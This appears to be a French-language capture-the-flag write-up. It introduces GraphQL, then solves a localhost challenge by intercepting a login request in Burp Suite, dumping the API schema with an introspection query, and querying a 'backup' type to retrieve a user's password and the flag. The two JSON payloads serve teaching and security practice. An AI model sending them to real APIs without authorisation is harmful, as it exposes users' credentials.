




#web #api #graphql
## Qu'est-ce que GraphQL ?

**GraphQL** est un langage de requête pour les API créé par Facebook en 2012 et devenu opensource en 2015.

**GraphQL** utilise un **schéma** pour décrire les types de données disponibles dans l'API, ainsi que les **relations** entre ces types.
Les requêtes **GraphQL** peuvent également inclure des arguments pour filtrer, trier ou paginer les données.

En résumé, GraphQL est une technologie de requête flexible et puissante qui permet aux clients de récupérer des données spécifiques à partir d'une API de manière efficace et contrôlée.

## Quelle est la différence avec les API REST ?

La principale différence entre **GraphQL** et **REST** est que **REST** est basé sur une architecture de ressources, où chaque **endpoint** correspond à une ressource.
Voici des exemples d'endpoints REST :
- `/users`
- `/articles`
- `/login`

GraphQL est basé sur une architecture de requête, où les clients spécifient exactement les données qu'ils souhaitent récupérer.

Dans **GraphQL**, il n'y a qu'un seul endpoint, par exemple `/graphql`, on peut spécifier exactement les données que l'on veut récupérer, ce qui évite l'**under/over fetching** des APIs REST.
De plus, le typage fort des données permet d'avoir un code maintenable et une API facile à consommée côté client.

## Énoncé du challenge

Vous disposez d'un site web à l'adresse `http://localhost:3000/`.

L'objectif de ce challenge est de découvrir une faille de sécurité sur une API GraphQL.
Vous devez trouver le mot de passe d'un utilisateur.

## Correction du challenge

Lorsque l'on lance le challenge, on peut accéder à ``http://localhost:3000`` et ``http://localhost:5000`` qui correspondent respectivement au client et au serveur.

On se rends donc sur le client, dans notre navigateur :


On tente quelques connexions avec des credentials arbitraires du style `admin@exemple.com:admin` ou `test@exemple.com:password`, mais rien ne fonctionne.

On voit ce genre de message d'erreur :


Pour essayer d'avancer, on ouvre **Burp Suite** et on intercepte une requête de connexion :


On voit que c'est une **API GraphQL**.
On envoie la requête dans le repeater et on va pouvoir faire une **__introspection__** pour dump le schéma de l'API :

```json
{"query":
"{__schema{queryType{name},mutationType{name},types{kind,name,description,fields(includeDeprecated:true){name,description,args{name,description,type{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},defaultValue},type{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},isDeprecated,deprecationReason},inputFields{name,description,type{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},defaultValue},interfaces{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},enumValues(includeDeprecated:true){name,description,isDeprecated,deprecationReason,},possibleTypes{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}}},directives{name,description,locations,args{name,description,type{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},defaultValue}}}}\n      "}
```


On voit que l'introspection à fonctionner.
On la copie dans [GraphQL Voyager](https://ivangoncharov.github.io/graphql-voyager/) pour pouvoir l'interpréter facilement :


On voit un query intéressant avec le schéma ``Backup``, qui permettrais de récupérer un flag + un compte utilisateur (ou admin ?).
On retourne donc dans **Burp Suite**, et on modifie notre requête HTTP avec ce payload :
```json
{
	"query": "query { backup {  id, flag, name, email, password } }"
}
```
Ceci nous permet de récupérer les champs **id**, **flag**, **email**, **password** :


Vous pouvez donc valider le challenge avec le flag : ``flag{graphql_is_awesome}``.
